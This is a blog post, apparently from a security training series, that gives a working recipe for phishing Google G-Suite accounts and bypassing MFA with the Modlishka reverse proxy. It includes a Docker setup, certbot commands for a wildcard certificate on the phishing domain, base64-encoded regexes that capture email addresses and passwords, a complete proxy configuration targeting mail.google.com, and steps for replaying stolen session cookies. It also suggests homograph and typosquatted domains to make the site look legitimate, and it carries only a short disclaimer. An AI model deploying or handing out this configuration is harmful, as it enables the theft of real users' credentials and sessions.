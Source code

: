```yaml
---
layout: post
title:  "[0x05] Phishing MFA accounts"
subtitle: "https://github.com/drk1wi/Modlishka"
date:   2020-07-22 12:00:00
categories: [tools, training]
vimeoId: 440640362
---
```


> MFA is usually considered secure. It however can be bypassed by phishing. I made this phishing demo using [drk1wi's](https://github.com/drk1wi) tool [Modlishka](https://github.com/drk1wi/Modlishka). The tool default templates are little bit outdated so here's also instructions how to make it work against G-Suite accounts. This is not a new thing, I just wanted to check if it still works. =)

![Screenshot](/assets/images/legit_site.png)

The full configuration is on [Github](https://github.com/who1s/modlishka-config).

## Demo

{% include vimeoPlayer.html id=page.vimeoId %}

## Put it to the container

I decided to do quick and dirty dockerization for the tool:
```
FROM alpine
FROM golang
RUN go get -u github.com/drk1wi/Modlishka
RUN cd $GOPATH/src/github.com/drk1wi/Modlishka/ && make
COPY modlishka.json /tmp/
```

To build and run the docker container easily, I made a script:
```
#!/bin/bash

docker build -t phishing-demo-mfa .

# Generate few example id's
for i in {1..5}
do
	echo "https://phishing.fi/?id="$i
done

docker run -p80:80 -p443:443 -it --rm phishing-demo-mfa Modlishka -config /tmp/modlishka.json
```

## Generating certificate

To make the phishing site look legit, we need a valid certificate. [Let's Encrypt (LE)](https://letsencrypt.org/) is free to use and trusted certificate provider which supports wildcard certificates. The phishing site could be made more legit by playing around with [IDN](https://en.wikipedia.org/wiki/IDN_homograph_attack), using [typosquatted domain name](https://en.wikipedia.org/wiki/Typosquatting) or simply using subdomains like google.com.phishing.fi.

Let's generate the certificate and follow instructions. Acquiring the certificate requires adding some DNS TXT records to your domain.

```
# apt-get update && apt-get install certbot
# certbot certonly --manual --preferred-challenges dns --manual-public-ip-logging-ok -d '*.phishing.fi' -d phishing.fi
# cp -r /etc/letsencrypt/archive/phishing.fi/ .
```

The Modlishka wants certificate in different format so let's convert it accordingly:
```
# openssl rsa -in privkey1.pem -out priv.key
# sed -i ':a;N;$!ba;s/\n/\\n/g' priv.key
# sed -i ':a;N;$!ba;s/\n/\\n/g' fullchain1.pem
```

## Fixing the configuration

The [Modlishka G-Suite template in Github](https://github.com/drk1wi/Modlishka/blob/master/templates/google.com_gsuite.json) seems to be obsolete. The JSON payload it tries to parse does not include the user name anymore. As the template does not work out of the box, I decided to look into G-Suite authentication process and do modifications accordingly.

Google authentication is doing a POST request where both email address and password are in params.

![Screenshot](/assets/images/phishburp.png)

This is the best place to grab the credentials so we need to adjust Modlishka's credParams configuration to do it:

Username
```
identifierInput=([^\W]+[\.,\-,\_]{0,}\w+[\@,\%40]\w+[\.,\-,\_]{0,}\w+\.\w{2,5})
```

Password
```
password=([a-zA-Z0-9"!"#$%&'()*+,-./:;<=>?@^_{|}~]+)&ca
```

These regex expressions I made with [regex101](https://regex101.com) should grab the email address and the password from given parameters. The Modlishka requires regex in base64 encoded format so the final configuration line would look like this:
```
"credParams": "aWRlbnRpZmllcj0oW15cV10rW1wuLFwtLFxfXXswLH1cdytbXEAsXCU0MF1cdytbXC4sXC0sXF9dXHcrXC5cd3swLDV9KQ==,cGFzc3dvcmQ9KFthLXpBLVowLTkiISIjJCUmJygpKissLS4vOjs8PT4/QF5fe3x9fl0rKSZjYQ==",
```

I also wanted to terminate the connection after the victim has successfully logged in. Reviewing the login process on Google shows the user is being redirected to Mail box after successful login. This means the mailbox URI can be used as a termination string:
```
"terminateTriggers": "/mail/u/",
```

The victim should be redirected to somewhere after the login which could be the real Google mail account for example. For demonstration purposes, we're gonna use this "funny" "hacked" meme:
```
"terminateRedirectUrl": "https://i0.wp.com/nexxytech.com/wp-content/uploads/2016/08/cheers.jpg",
```

The tracking ID should also be adjusted:
```
"trackingParam": "id",
```

The full configuration is here without certificates:
```
# cat modlishka.json
{
  "proxyDomain": "phishing.fi", // Your domain
  "listeningAddress": "0.0.0.0",
  "proxyAddress": "",
  "target": "mail.google.com",
  "targetResources": "content.googleapis.com,www.gstatic.com,ssl.gstatic.com,ogs.google.com,clients1.google.com,clients2.google.com,clients3.google.com,clients4.google.com,clients5.google.com,clients6.google.com",
  "rules": "",
  "terminateTriggers": "/mail/u/",
  "terminateRedirectUrl": "https://i0.wp.com/nexxytech.com/wp-content/uploads/2016/08/cheers.jpg",
  "trackingCookie": "ident",
  "trackingParam": "id",
  "jsRules":"",
  "jsReflectParam": "reflect",
  "debug": false,
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "google.log",
  "plugins": "all",
  "credParams": "aWRlbnRpZmllcj0oW15cV10rW1wuLFwtLFxfXXswLH1cdytbXEAsXCU0MF1cdytbXC4sXC0sXF9dXHcrXC5cd3swLDV9KQ==,cGFzc3dvcmQ9KFthLXpBLVowLTkiISIjJCUmJygpKissLS4vOjs8PT4/QF5fe3x9fl0rKSZjYQ==",
  "cert": "", // fullchain1.pem here
  "certKey": "", // priv.key here
  "certPool": ""
}
```

## Using the stolen credentials

After victim has logged in using the Modlishka proxypage, we can use their cookies to log in by visiting Google's email and setting the gathered cookies for example with Moustachauve's [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) and refreshing the page.

## Resources

- [Modlishka](https://github.com/drk1wi/Modlishka)
- [My configuration](https://github.com/who1s/modlishka-config)

## Disclaimer

This demo is only for demonstration and education purposes. Do not use these instructions to anything illegal.
